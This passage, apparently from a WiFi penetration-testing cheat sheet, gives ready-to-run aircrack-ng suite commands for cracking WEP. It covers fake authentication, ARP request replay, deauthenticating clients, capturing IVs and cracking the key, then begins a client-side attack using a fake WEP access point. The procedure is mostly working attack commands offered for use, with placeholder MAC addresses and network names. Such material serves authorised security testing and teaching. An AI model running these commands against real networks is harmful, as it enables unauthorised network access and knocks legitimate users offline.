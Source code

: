 Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do the fake authentication to a WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

If MAC address filtering is active, do the fake authentication to a WiFi network with an existing MAC address:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

To monitor the number of captured IVs, run `airodump-ng` against a WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start the standard ARP request replaying against a WiFi network:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points. You must know the SSIDs of your target's WiFi networks.

\[Optional\] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

If needed, turn up the power of a wireless network interface to missassociate clients to the fake WiFi network, see how in section [1. Configuration](#1-configuration).
